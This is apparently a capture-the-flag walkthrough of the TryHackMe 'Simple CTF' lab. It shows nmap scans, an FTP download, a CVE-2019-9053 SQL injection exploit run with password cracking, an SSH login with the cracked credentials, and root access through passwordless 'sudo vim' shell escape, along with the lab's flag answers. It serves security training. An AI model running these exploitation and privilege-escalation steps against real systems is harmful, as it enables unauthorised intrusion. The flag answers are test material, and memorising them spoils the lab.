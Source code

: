 # Simple CTF

```
export ip=10.10.208.204
```

# 1. How many services are running under port 1000?


```
run nmap scan on machine using -sC -sV 
```
```json
nmap -sC -sV -oN nmap/initial 10.10.208.204
```


```
answer: 2
```

# 2. What is running on the higher port?

```
we will use -p 0-9999 to specify scan ports from 0 to 9999 in nmap
```

```json
nmap -p 0-9999 -oN nmap/all_ports 10.10.208.204
```
```
since ftp is running lets see what the server has for us
ftp 10.10.208.204 
we find ForMitch.txt and grabbed it to my host system using "get ForMitch.txt"
```

```
answer: ssh
```

# 3. What's the CVE you're using against the application? 

```
searched for exploits against the web servers host template version (2.2.8) which is usually found at the bootom of websites and found CVE-2019-9053
```

```
answer: CVE-2019-9053
```

# 4. To what kind of vulnerability is the application vulnerable?

```
the exploit was a SQL Injection and since tryhackme states the answer is 4 letters it should be SQLi
```

```
answer: SQLi
```

# 5. What's the password?

```
we run the python exploit and specify the rhosts and using --crack we will attempt to crack the password using a wordlist in this case best110.txt
```

```json
python3 exploit.py -u http://10.10.208.204/simple --crack -w /your/wordlist.txt 
```
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

```
answer: secret
```

# 6. Where can you login with the details obtained?
```json
ssh mitch@$ip 
password is secret
```
```
answer: ssh
```

# 7. What's the user flag?

```
we can run find / -name user* 2>/dev/null to search the computer for the flag if its not located in the home directory otherwise we can cat the file when found. cat /home/mitch/user.txt
```

```
Answer:"G00d j0b, keep up!"
```

# 8. Is there any other user in the home directory? What's its name?

```
if we cd ../ to go back to the parent directory we can see a user folder of someone named "sunbath"
```

```
Answer: sunbath
```

# 9. What can you leverage to spawn a privileged shell?

```
the first thing i do when im attempting to privesc is running sudo -l to see what im able to run as root. in this case we can run /usr/bin/vim as sudo without needing a password. using gtfobins we can see that using vim we can spawn a shell however because this box doesnt need a password for sudo vim we can spawn and leverage this vulnerability.
```

```
Answer: vim
```

# 10. What's the root flag?

```json
running sudo vim -c ':!/bin/sh' will now give us root privilidges on the system 
```
```
due to the user "mitch" being able to run vim as sudo without a password. root flags are usually stored in /root however if not we can always use find to search for the file. In this cate the flag is stored in /root/root.txt so lets cat the file and finish the box!
```

```
Answer: W3ll d0n3. You made it!
```

```json
Congrats u have completed Simple CTF!
```

